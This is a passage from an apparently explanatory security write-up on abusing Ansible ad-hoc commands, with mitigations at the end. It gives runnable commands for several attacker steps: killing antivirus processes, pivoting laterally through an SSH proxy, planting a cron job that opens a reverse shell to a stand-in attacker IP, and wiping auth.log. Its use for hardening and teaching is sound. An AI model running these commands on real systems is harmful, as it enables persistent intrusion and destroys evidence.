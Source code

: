 ### 7. **Killing Security Processes**
   - Ad-hoc commands can be used to kill security-related processes (e.g., antivirus, monitoring agents), weakening the system’s defenses.
   - Example:
     ```bash
     ansible all -m shell -a "pkill -f antivirus_process" --become
     ```
   - This command kills a process related to an antivirus program, potentially allowing further attacks to go undetected.

### 8. **Pivoting with SSH Proxy**
   - Ad-hoc commands can be used to pivot through an SSH proxy, enabling lateral movement within a network.
   - Example:
     ```bash
     ansible all -m command -a "hostname" -e "ansible_ssh_common_args='-o ProxyCommand=\"ssh -W %h:%p user@proxyhost\"'"
     ```
   - This command runs the `hostname` command on all hosts via an SSH proxy, allowing the attacker to move laterally across the network.

### 9. **Establishing Persistence**
   - An attacker could use ad-hoc commands to establish persistence on a compromised system, such as by creating cron jobs or adding backdoors.
   - Example:
     ```bash
     ansible all -m cron -a "name='Backdoor' job='/bin/bash -i >& /dev/tcp/attacker_ip/4444 0>&1' minute='*/5'" --become
     ```
   - This command creates a cron job that opens a reverse shell every 5 minutes.

### 10. **Clearing Logs to Cover Tracks**
   - An ad-hoc command can be used to clear logs on remote systems, making it harder for defenders to trace the attack.
   - Example:
     ```bash
     ansible all -m shell -a "cat /dev/null > /var/log/auth.log" --become
     ```
   - This command clears the contents of the `auth.log` file, which contains authentication-related logs.

### **Key Mitigations**:
- **Restrict Ad-Hoc Command Usage**: Limit who can run ad-hoc commands, and restrict their use to specific, trusted users.
- **Use Least Privilege**: Ensure that playbooks and ad-hoc commands only use the privileges necessary for the task at hand.
- **Audit and Monitor**: Continuously monitor the execution of ad-hoc commands and audit logs to detect and respond to unauthorized usage.
- **Secure SSH Keys**: Properly manage and secure SSH keys to prevent unauthorized access and lateral movement.

